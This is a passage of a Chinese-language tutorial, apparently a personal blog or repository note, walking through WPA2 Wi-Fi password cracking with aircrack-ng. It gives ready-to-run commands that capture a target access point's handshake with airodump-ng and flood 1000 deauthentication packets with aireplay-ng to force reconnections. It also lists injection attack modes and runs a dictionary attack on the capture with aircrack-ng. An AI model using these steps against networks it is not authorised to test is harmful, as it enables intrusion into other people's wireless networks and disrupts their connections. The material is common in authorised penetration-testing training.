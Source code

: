 测试发现，如果没有使用sudo airmon-ng check kill,好像效果更好，但是需要将自己连接的wifi 热点给断开，
没有理解为什么。

### 二、收集802.11的数据帧
这个步骤就是主要是用于收集终端设备和AP之间的握手包，为后面的寻找密码作准备。
使用的命令是 airodump-ng, 具体参数可以可以man airodump-ng.

```
sudo airodump-ng --bssid D8:1A:0D:1A:5A:D2 -c 1 --write WPAcrack mon0

--bssid 这个参数就是用于指定具体的AP，--write 就是将搜集的数据存放到指定的文件中。
-i, --ivs:使用该选项后,只会保存可用于破解的IVS数据报文。通过设置过滤,不再将所有无线数据保存,包大小。

输出：
CH  9 ][ Elapsed: 11 mins ][ 2018-07-01 22:12 ][ WPA handshake: DF:1F:0F:1F:5E

 BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

 DF:1F:0F:1F:5E:D2  -45     1656       53    0   1  54e. WPA2 CCMP   PSK  zHOUS

 BSSID              STATION            PWR   Rate    Lost    Frames  Probe
                                                                               _

如果屏幕上出现 WPA handshake: ×××××× ， 那么就说明已经搜集到握手包，建议多收集几个，这样可以提高命中的概率。

```


### 三、 提高搜集WPA handshake 速度
不断模拟连接上终端设备给路由器发送一些攻击数据包，如：解除认证攻击（-0）、伪造认证攻击（-1）、交互式数据包重放攻击（-2）、手动ARP请求注入攻击（-3）、ARP请求重放注入攻击（-4）。

```

–deauth count：解除一个或所有工作站与接入点之间的认证（-0）
-fakeauth delay：向接入点发起伪造的认证（-1）
-interactive：交互式注入攻击（-2）
-arpreplay：标准ARP请求包重放（-3）
chopchop：解密WEP包
-fragment：碎片包攻击模式
-test：注入测试
```
关于这个命令的具体用法可以通过man手册查询，或者参考[Aircrack-ng之Aireplay-ng命令](https://blog.csdn.net/qq_28208251/article/details/48115815)

```
sudo aireplay-ng --deauth 1000 -a DF:1F:0F:1F:5E:D2 mon0
```

### 四、分析WPA handshake，得到想要的内容

- 方法一 aircrack-ng
```
aircrack-ng WPAcrack_sll-01.cap -w 密码字典.txt
```
